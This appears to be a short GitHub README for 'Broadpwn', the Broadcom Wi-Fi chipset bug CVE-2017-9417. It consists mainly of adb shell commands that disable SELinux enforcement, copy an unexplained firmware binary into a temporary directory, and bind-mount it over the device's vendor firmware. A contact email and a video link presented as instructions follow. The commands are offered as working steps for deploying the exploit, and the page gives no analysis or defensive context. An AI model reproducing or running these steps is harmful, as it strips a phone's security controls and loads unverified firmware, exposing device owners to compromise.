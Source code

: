 # Broadpwn
Broadpwn bug (CVE-2017-9417)

  Remotely Compromising Android and iOS via a Bug in Broadcom’s Wi-Fi Chipsets

  $ adb shell 
  
  #setenforce 0
  
  #cp fw_bcmdhd.bin /data/local/tmp/firmware/
  
  #chmod 755 /data/local/tmp/firmware/fw_bcmdhd.bin
  
  #mount -o bind /data/local/tmp/firmware /vendor/firmware
  
  #stop
  
  #start

  If you have any questions, feel free to ask for more information: Linnebergmai@gmail.com
  Whatch the instruction: https://youtu.be/GTb4Y2Y9shw
